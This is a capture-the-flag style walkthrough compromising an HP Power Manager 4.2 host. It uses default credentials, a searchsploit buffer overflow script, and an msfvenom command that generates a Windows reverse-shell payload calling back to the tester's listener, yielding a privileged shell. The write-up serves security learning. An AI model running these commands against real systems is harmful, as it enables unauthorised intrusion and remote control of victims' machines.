





# Recon
## NmapAutomator
```
nmapAutomator.sh --host 192.168.152.45 -t basic
```


The basic nmapAutomator scan shows a HTTP port. This will be the first port that I will assess.

### HTTP - Port 80
We are presented a login page for HP Power Manager
- searching for default credentials shows `admin:admin`


The credentials allows successful login
- the **Help** page shows **HP Power Manager 4.2 (Build 7)**
- using this information, I searched for valid exploits in the exploitdb database which presented a buffer overflow vulnerability
```
searchsploit hp power manager 
```


The python script for universal buffer overflow looked the most promising so I downloaded the python script using `searchsploit -m windows/remote/10099.py`

# Exploitation
Script states that we need to replace the shellcode, and gives us a list of bad characters to avoid
- use the flag `-b` for bad characters that msfvenom will avoid
- the script also states that it is using msf encoder PexAlphaNum, with further research this leads me to this [offensive security website](https://www.offsec.com/metasploit-unleashed/alphanumeric-shellcode/) which uses `x86/alpha_mixed`
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.230 LPORT=4444 -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" -e x86/alpha_mixed
```

Copy the shellcode string contents into the script right after `n00bn00b` and run the script using python2
```
python2 10099.py 192.168.152.45
```



The script successfully generated a privileged reverse shell. The flag is on the desktop of the administrator user.


# Summary

Reconnaissance:
- Utilized NmapAutomator to perform a basic scan on the target host (192.168.152.45), revealing an open HTTP port as the initial point of assessment

HTTP Service (Port 80):
- Discovered a login page for HP Power Manager upon accessing the HTTP service
- Identified default credentials (admin:admin) for successful login
- Found the version information (HP Power Manager 4.2 Build 7) and searched for exploits in the exploitdb database, revealing a buffer overflow vulnerability

Exploitation:
- Downloaded a promising Python script (10099.py) for the identified vulnerability
- Replaced the shellcode in the script and avoided bad characters using msfvenom with the -b flag
- Identified the use of the x86/alpha_mixed encoder and generated shellcode accordingly
- Executed the modified Python script to exploit the vulnerability, resulting in a privileged reverse shell

Post-Exploitation:
- Obtained root access via the successful execution of the exploit script
- Located the flag on the desktop of the administrator user
---
Join me for the next machine soon for more exciting challenges and security insights!

+10 points

